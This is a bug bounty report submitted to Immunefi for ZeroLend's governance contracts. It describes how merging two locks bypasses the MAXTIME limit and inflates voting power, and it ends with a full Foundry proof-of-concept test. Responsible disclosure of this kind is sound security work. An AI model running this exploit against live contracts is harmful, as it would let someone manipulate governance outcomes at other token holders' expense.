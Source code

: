
# ZeroLocker:merge can make a voting lock last longer than MAXTIME and inflate voting power

Submitted on Mar 1st 2024 at 01:23:04 UTC by @jovi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28892

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
I have previously reported an issue called  "ZeroLocker:merge can make a voting lock last longer than 4 years" as a primary medium-severity issue at Cantina's contest as there wasn't a voting power calculation function at that codebase. I am reporting it again as the impact at the codebase in Immunefi's scope is higher and presents a significance for the voting mechanics.
## Brief/Intro

The BaseLocker contract allows users to merge two different locks and end up with a lock that has a longer than MAXTIME difference between the end time and start time. This inflates the calculation of voting power for locks and give them an unfair advantage on governance.

## Vulnerability Details
The merge method enables a user to bypass the MAXTIME requirement by creating two different locks that last MAXTIME, one at Time0 and the second one some time later at Time1 then merging with the first lock as the merge target (or **to** argument) at the merge call:
```solidity
function merge(uint256 _from, uint256 _to) external override {
```

As the merge function at the BaseLocker contract does not check whether the end minus the locked0.start is not greater than MAXTIME, it enables arbitrary-sized lock durations:
```solidity
LockedBalance memory _locked0 = locked[_from];
        LockedBalance memory _locked1 = locked[_to];
        uint256 value0 = uint256(int256(_locked0.amount));
        uint256 end = _locked0.end >= _locked1.end
            ? _locked0.end
            : _locked1.end;

        locked[_from] = LockedBalance(0, 0, 0, 0);

        _burn(_from);
        _depositFor(_to, value0, end, _locked1, DepositType.MERGE_TYPE);
```

The depositFor internal method updates the lock, but it doesn't check the end timestamp and the start timestamp difference either, the only sanity check is in regards to unlockTime != 0:
```solidity
if (_unlockTime != 0) lock.end = _unlockTime;
```

This enables calculatePower to utilize a numerator bigger than MAXTIME, inflating locks amounts voting power:
```solidity
function _calculatePower(
        LockedBalance memory lock
    ) internal view returns (uint256) {
        return ((lock.end - lock.start) * lock.amount) / MAXTIME;
    }
```

## Impact Details
The whole voting mechanics is spoofed as merging allows users to have voting powers bigger than the maximum possible for the amounts deposited. This effectively makes governance a game of merging locks at the last possible moment before a voting start in order to have ever-increasing voting powers.
## References
Snippet in which merge doesn't check the total duration of the lock: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L180C8-L185C28
CalculatePower internal method: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L112C4-L117C1

## Proof of concept
### PoC
Set up foundry on hardhat by placing
```solidity
import "@nomicfoundation/hardhat-foundry";
```
at the hardhat.config.ts file. Don't forget to install "@nomicfoundation/hardhat-foundry".
Then install foundry at the contracts folder with the following command:
```solidity
forge init --force
```

Install openzeppelin contracts at foundry:
```solidity
forge install Openzeppelin/openzeppelin-contracts@v5.0.1 --no-commit
forge install OpenZeppelin/openzeppelin-contracts-upgradeable --no-commit
```

Place the following code-snippet at the Test.t.sol file inside the test folder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        WEEK = 1 weeks;
        // MAXTIME is set to 1 year as it is the value set at the initialization of the LockerLP contract
        MAXTIME = 365 * 86400;

    }
 
    function test_poc() public {

        vm.prank(user);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass some time
        vm.warp(block.timestamp + WEEK);

        uint256 unlockTime1 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        vm.prank(user);
        lockerLP.merge(2, 1);

        (uint256 amountLocked, uint256 end, uint256 start,) = lockerLP.locked(1);
        // check if amount locked is 1 ether
        require(amountLocked == 1 ether, "wrong amount locked");

        // check the difference between the end and the start 
        require(end - start > MAXTIME, "lock duration is not over 1 year");
       
        // check if voting power is bigger than what should be possible
        uint256 maxVotingPower = MAXTIME * amountLocked / MAXTIME;
        uint256 currentVotingPower = (end - start) * amountLocked / MAXTIME;
        require(currentVotingPower > maxVotingPower, "current voting power is not bigger than maximum expected value");
    }

}
```